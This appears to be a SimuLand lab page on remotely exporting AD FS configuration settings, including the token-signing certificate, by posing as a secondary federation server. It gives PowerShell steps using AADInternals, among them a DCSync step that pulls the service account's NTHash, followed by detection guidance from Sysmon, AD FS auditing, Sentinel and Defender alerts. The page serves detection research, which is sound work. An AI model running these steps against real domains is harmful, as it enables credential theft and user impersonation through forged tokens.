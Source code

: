 # Export Active Directory Federation Services (AD FS) Configuration Settings via Policy Store Transfer Service

The AD FS configuration settings contains properties of the Federation Service and can be stored in either a Microsoft SQL server database or a `Windows Internal Database (WID)`. You can choose either one, but not both. The `SimuLand` project uses a `WID` as the AD FS configuration database.

The AD FS configuration settings contains sensitive information such as the AD FS token signing certificate (encrypted format) which can be exported and decrypted to sign SAML tokens and impersonate users in a hybrid environment.

Based on [recent research](https://o365blog.com/post/adfs/) by [Dr. Nestori Syynimaa](https://twitter.com/DrAzureAD), a threat actor could use [AD FS synchronization (Replication services)](https://docs.microsoft.com/en-us/windows-server/identity/ad-fs/technical-reference/the-role-of-the-ad-fs-configuration-database#how-the-adfs-configuration-database-is-synchronized) and pretend to be a secondary federation server to retrieve the AD FS configuration settings remotely from the primary federation server. 

Legitimate secondary federation servers store a `read-only` copy of the AD FS configuration database and connect to and synchronize the data with the primary federation server in the AD FS farm by polling it at regular intervals to check whether data has changed. A threat actor could use `SOAP messages` (XML documents) to request/sync AD FS configuration settings over a Windows Communication Foundation (WFC) service named `Policy Store transfer Service` on the federation primary server. This service can be accessed via the following URL over HTTP: 
 
```
http://<AD FS Server Name>:80/adfs/services/policystoretransfer
```

## Table of Contents

* [Preconditions](#preconditions)
* [Simulation Steps](#simulation-steps)
* [Detection](#detection)
* [Output](#output)
* [Variations](#variations)

## Preconditions
* Integrity level: medium
* Authorization:
    * Resource: AD FS Database 
    * Identity:
        * AD FS Service Account
        * Local Administrator
* AD FS Server
    * Services:
        * Active Directory Federation Services (ADFSSRV)
    * Network:
        * URL: `http://<adfs server name>:80/adfs/services/policystoretransfer`
        * Port: 80

## Simulation Steps

For this remote variation, we can use use [AADInternals](https://github.com/Gerenios/AADInternals) with the following information:
* IP Address or FQDN of the AD FS server
* NTHash of the AD FS service account
* SID of the AD FS service account 

### Log onto a domain joined workstation

1.  Connect to one of the domain joined workstations in the network via the [Azure Bastion service](../../2_deploy/_helper_docs/connectAzVmAzBastion.md) as a [domain admin account](https://github.com/Azure/SimuLand/tree/main/2_deploy/aadHybridIdentityADFS#domain-users-information) (e.g. pgustavo).

### Get Object GUID and SID of the AD FS Service Account

2.  Open PowerShell as Administrator
3.  Use the [Active Directory Service Interfaces (ADSI)](https://docs.microsoft.com/en-us/windows/win32/adsi/active-directory-service-interfaces-adsi) to search for the AD FS service account object in the domain controller. Make sure you use the name of the `AD FS service account` you created for the lab environment (e.g. adfsadmin).

```PowerShell
$AdfsServiceAccount = 'adfsadmin'
$AdfsAdmin = ([adsisearcher]"(&(ObjectClass=user)(samaccountname=$AdfsServiceAccount))").FindOne() 
$Object = New-Object PSObject -Property @{ 
    Samaccountname = ($AdfsAdmin.Properties).samaccountname 
    ObjectGuid  = ([guid]($AdfsAdmin.Properties).objectguid[0]).guid 
    ObjectSid   = (new-object System.Security.Principal.SecurityIdentifier ($AdfsAdmin.Properties).objectsid[0],0).Value 
}
$Object | Format-List
```

![](../../resources/images/simulate_detect/credential-access/exportADFSTokenSigningCertificate/2021-05-19_05_get_adfs_service_account.png)

### Install AADInternals

4.  On the same elevated PowerShell session, run the following commands to install [AADInternals](https://github.com/Gerenios/AADInternals) if it is not installed yet: 

```PowerShell
Install-Module –Name AADInternals -Force 
Import-Module –Name AADInternals 
```

### Get NTHash of AD FS Service Account via Directory Replication Services (DSR)

5. Get the NTHash of the AD FS service account. AADInternals accomplishes this via [Active Directory Replication Services (DRS)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/06205d97-30da-4fdc-a276-3fd831b272e0#:~:text=The%20Directory%20Replication%20Service%20%28DRS%29%20Remote%20Protocol%20is,name%20of%20each%20dsaop%20method%20begins%20with%20%22IDL_DSA%22.) with the [Get-AADIntADUserNTHash](https://github.com/Gerenios/AADInternals/blob/master/DRS_Utils.ps1#L71) function. Make sure you set the right name for the domain controller in your environment (`$Server`).

```PowerShell
$Server = 'DC01.simulandlabs.com'
$creds = Get-Credential

$NTHash = Get-AADIntADUserNTHash –ObjectGuid $Object.ObjectGuid –Credentials $creds –Server $Server -AsHex
$NTHash
```

![](../../resources/images/simulate_detect/credential-access/exportADFSTokenSigningCertificate/2021-05-19_06_get_adfs_service_account_nthash.png)

### Get AD FS Configuration Settings Remotely

6.  Finally, we can use all the previous information to export the AD FS configuration settings remotely. Make sure you set the right name for the AD FS server in your environment (`$ADFSServer`).

```PowerShell
$ADFSServer = "ADFS01.simulandlabs.com" 
$settings = Export-AADIntADFSConfiguration -Hash $NTHash -SID $Object.ObjectSid -Server $ADFSServer
$settings 
```

![](../../resources/images/simulate_detect/credential-access/exportADFSTokenSigningCertificate/2021-05-19_07_get_adfs_settings_remotely.png)

## Detection

### Detect AD FS Remote Synchronization Network Connection

The replication channel used to connect to the AD FS server is over `port 80`. Therefore, we can monitor for incoming network traffic to the AD FS server over HTTP with `Sysmon event id 3 (NetworkConnect)`. For an environment with only one server in the AD FS farm, it is rare to see incoming connections over standard HTTP port from workstations in the network.

![](../../resources/images/simulate_detect/credential-access/exportADFSTokenSigningCertificate/2021-05-19_08_adfs_remote_connection_sysmon.png)

Another behavior that we could monitor is the `authorization check` enforced by the AD FS replication service on the main federation server. We can use security events `412` and `501` from the `AD FS auditing` event provider to capture this behavior. These two events can be joined on the `Instance ID` value for additional context and to filter out other authentication events.

![](../../resources/images/simulate_detect/credential-access/exportADFSTokenSigningCertificate/2021-05-19_09_adfs_remote_connection_adfsauditing.png)

#### Azure Sentinel Detection Rules

* [AD FS Remote HTTP Network Connection](https://github.com/Azure/Azure-Sentinel/blob/master/Detections/SecurityEvent/ADFSRemoteHTTPNetworkConnection.yaml)
* [AD FS Remote Auth Sync Connection](https://github.com/Azure/Azure-Sentinel/blob/master/Detections/SecurityEvent/ADFSRemoteAuthSyncConnection.yaml)

### Detect Active Directory Replication Services

Even though the use of directory replication services (DRS) is not part of the core behavior to extract the AD FS configuration settings remotely, it is an additional step taken by tools such as [AADInternals](https://github.com/Gerenios/AADInternals) to get the NTHash of the AD FS user account to access the AD FS database remotely.

#### Microsoft Defender for Identity Alerts

**Suspected DCSync attack (replication of directory services)**

The Microsoft Defender for Identity (MDI) sensor, installed on the domain controller, triggers an alert when this occurs. MDI detects non-domain controllers using Directory Replication Services (DRS) to sync information from the domain controller. 

1.  Navigate to [Microsoft 365 Security Center](https://security.microsoft.com/).
2.  Go to `More Resources` and click on `Azure Advanced Threat Protection`. 

![](../../resources/images/simulate_detect/credential-access/exportADFSTokenSigningCertificate/2021-05-19_10_m365_mdi_alert_dcsync.png)

#### Microsoft Cloud Application Security Alerts

**Suspected DCSync attack (replication of directory services)**

You can also see the same alert in the Microsoft Cloud Application Security (MCAS) portal. The MCAS portal is considered the new investigation experience for MDI.

1.	Navigate to [Microsoft 365 Security Center](https://security.microsoft.com/)
2.	Go to “More Resources” and click on “[Microsoft Cloud App Security](https://portal.cloudappsecurity.com/)”.

![](../../resources/images/simulate_detect/credential-access/exportADFSTokenSigningCertificate/2021-05-19_11_m365_mcas_alert_dcsync.png)

## Output
* AD FS Configuration Settings

## Variations
* [Export AD FS Configuration Settings Locally via Named Pipe](exportADFSConfigSettingsNamedPipe.md)

## References
* [Exporting ADFS certificates revisited: Tactics, Techniques and Procedures (o365blog.com)](https://o365blog.com/post/adfs/)
* [The Role of the AD FS Configuration Database | Microsoft Docs](https://docs.microsoft.com/en-us/windows-server/identity/ad-fs/technical-reference/the-role-of-the-ad-fs-configuration-database)
* [Create a server audit and database audit specification](https://docs.microsoft.com/en-us/sql/relational-databases/security/auditing/create-a-server-audit-and-database-audit-specification?view=sql-server-ver15)
* [SQL Server Audit Action Groups and Actions](https://docs.microsoft.com/en-us/sql/relational-databases/security/auditing/sql-server-audit-action-groups-and-actions?view=sql-server-ver15)